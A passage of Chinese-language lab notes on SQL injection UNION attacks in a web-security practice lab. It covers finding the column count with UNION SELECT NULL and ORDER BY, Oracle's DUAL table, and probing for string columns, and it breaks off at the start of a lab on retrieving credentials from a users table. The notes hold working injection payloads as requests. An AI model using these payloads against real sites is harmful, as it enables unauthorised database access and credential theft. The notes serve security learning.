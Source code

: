 `GET /filter?category=Pets'+union+select+NULL,+NULL,+NULL-- HTTP/2`

正确，说明是3列



跳出本关的规则，除了使用UNION来判断列数，还可以用order by

`/filter?category=Pets'+order+by+4--` 报错

`/filter?category=Pets'+order+by+3--` 正确

说明是3列



该靶场提示：在oracle中，每个 `SELECT` 查询都必须使用 `FROM` 关键字并指定一个有效的表。Oracle 上有一个名为 `dual` 内置表可用于此目的。因此，Oracle 上的注入查询需要如下所示：

`' UNION SELECT NULL FROM DUAL--`



因为union前后的查询结果对应列的数据类型必须相同或兼容，因此可以利用这个来判断哪一列是字符串（有价值的数据一般以字符串格式存储）

例如：

```
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
```



## 4、SQL injection UNION attack, retrieving data from other tables

题目中说了有一个user表，表中有username和password字段

首先加一个单引号，看看反应

```
GET /filter?category=Gifts' HTTP/2
```

![image-20250626185921305](assets/image-20250626185921305.png)

